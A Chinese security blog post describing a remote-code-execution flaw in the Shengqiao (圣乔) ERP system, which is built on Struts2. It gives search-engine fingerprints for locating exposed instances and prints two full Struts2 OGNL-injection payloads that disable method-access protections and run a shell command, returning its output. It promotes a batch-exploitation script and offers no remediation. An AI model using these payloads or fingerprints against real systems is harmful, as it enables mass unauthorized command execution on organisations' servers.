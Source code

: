 #  某乔ERP系统存在RCE漏洞，附POC脚本！   
原创 狐狸  狐狸说安全   2024-11-26 01:24  
  
**免责声明**  
  
由于传播、利用本公众号狐狸说安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号  
狐狸说安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉，谢谢！  
### 0x01 概述  
  
杭州圣乔科技有限公司主要研发全套工业企业ERP系列软件产品，现在公司已经形成ERP 软件、OA办公管理、等四大系列二十小类软件产品。致力于为政府、教育、医疗卫生、文化事业、公共事业（电、水、气等）、交通、住建、应急、金融、电信运营商、企业等用户提供专业的信息化、智能化、数字化服务。  
### 0x02 正文  
  
**Fofa指纹：app="圣乔-ERP系统"******  
  
**鹰图指纹：web.icon="d2c808114296ddd9e76e9c774d79bd43"******  
  
由于此ERP系统使用Struts2开发框架组件，均存在历史遗留漏洞，可直接利用Struts2的Nday漏洞进行渗透攻击  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwa5EAPE7VX89OLykRz77Ry8QwxRh9e9nUXfrQo3LAYH0zXDNLUZicAmGACXJrk0zQxa08SibIia2jw7Q/640?wx_fmt=png&from=appmsg "")  
  
  
执行whoami命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwa5EAPE7VX89OLykRz77Ry8SCnpDkl4wQN2mopuCpoer08jSwSU5nSdv9IfWtSTgOpIPBUplGgprw/640?wx_fmt=png&from=appmsg "")  
  
**POC：**  
  
payload1：  
```
screen.width=1&screen.height=1&encode=1&operate=11&UI=0&user=1&password=c4ca4238a0b923820dcc509a6f75849b&switching=true&redirect:%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22whoami%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()%7D=1
```  
  
payload2：  
```
screen.width=1&screen.height=1&encode=1&operate=11&UI=0&user=1&password=c4ca4238a0b923820dcc509a6f75849b&switching=true&redirect:%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22whoami%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()%7D&cachePass=1
```  
  
也可以使用专项检测利用工具进行识别攻击  
  
**批量化脚本：**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/pH5fZ5lvwwa5EAPE7VX89OLykRz77Ry8vWtawwIxlyjJePPdOGtEaMbfvrI4mhibHQjPw60n6ntKHDaB6xODVJw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwa5EAPE7VX89OLykRz77Ry8ATYBrrX3f1gPGCzLGR98SufzlA1ia2TriciaOwiaPibicWf0YoicictBrbEDHQ/640?wx_fmt=png&from=appmsg "")  
  
  
**0x03结尾**  
  
POC批量化测试脚本已经在很早之前传至纷传圈子上了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwa5EAPE7VX89OLykRz77Ry8kJABTWc9dKWVzHg0dz1bcwIf5OIwnepec3dgq1RDWlPzQjy0RKIpIA/640?wx_fmt=png&from=appmsg "")  
  
  
**0x04内部圈子**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/pH5fZ5lvwwa5EAPE7VX89OLykRz77Ry8gOE6649Ddcfp7HaaFBoKjzWXCZ3iavTGMTeYEj9jgWKVcFFdULqbia3w/640?wx_fmt=jpeg&from=appmsg "")  
  
